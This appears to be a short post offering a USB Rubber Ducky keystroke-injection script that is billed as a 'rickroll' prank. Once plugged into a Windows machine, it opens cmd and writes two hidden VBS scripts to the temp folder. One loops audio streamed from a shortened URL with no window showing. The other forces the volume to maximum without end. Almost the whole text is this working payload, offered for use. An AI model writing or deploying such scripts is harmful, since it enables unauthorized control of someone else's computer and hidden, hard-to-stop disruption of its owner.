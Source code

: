 Based on: https://gitlab.com/WarKitteh/arduino-hid-rickroll

GitLab repo (Modded): https://github.com/BlueArduino20/Rickroll-MODDED

It creates and starts 2 vbs files. One of them plays Never Gonna Give You Up from Rick Astley on a loop without any windows showing up. Another vbs file sets the volume to the maximum continuously and if someone tries to get down the volume, it will reset the volume to the maximum level.

Ducky code:
<pre><code>
DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 500
STRING del %tmp%\rickyou.vbs
ENTER
DELAY 200
STRING del %tmp%\volup.vbs
ENTER
DELAY 200
STRING cd %tmp% && copy con rickyou.vbs
ENTER
STRING While true
ENTER
STRING Dim oPlayer
ENTER
STRING Set oPlayer = CreateObject("WMPlayer.OCX")
ENTER
STRING oPlayer.URL = "https://gourl.page.link/mkrX"
ENTER
STRING oPlayer.controls.play
ENTER
STRING While oPlayer.playState <> 1 ' 1 = Stopped
ENTER
STRING WScript.Sleep 100
ENTER
STRING Wend
ENTER
STRING oPlayer.close
ENTER
STRING Wend
ENTER
DELAY 100
CTRL z
ENTER
STRING copy con volup.vbs
ENTER
STRING do
ENTER
STRING Set WshShell = CreateObject("WScript.Shell")
ENTER
STRING WshShell.SendKeys(chr(&hAF))
ENTER
STRING loop
ENTER
CTRL z
ENTER
STRING start rickyou.vbs && volup.vbs
ENTER
STRING exit
ENTER
</pre></code>